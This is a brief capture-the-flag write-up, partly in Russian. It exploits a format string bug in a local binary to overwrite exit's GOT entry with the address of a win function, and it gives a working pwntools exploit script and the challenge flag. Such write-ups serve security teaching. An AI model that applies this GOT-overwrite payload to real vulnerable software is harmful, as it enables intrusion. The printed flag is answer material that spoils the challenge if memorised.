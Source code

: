 Проэксплуатируем уязвимость форматной строки, чтобы переписать адрес функции exit, которая вызывается в конце main, в разделе got.plt на адрес функции win.
![](pwn1_pics/2.png)
![](pwn1_pics/3.png)

## Exploit
```python
from pwn import *

io = process('./main')

win_addr = 0x401156
exit_addr = 0x404018

payload = b'%' + str(win_addr).encode() + b'x%8$nAAA' + p64(exit_addr)

io.sendline(payload)

io.interactive()
```

## Flag
`nto{easy_formt_string}`
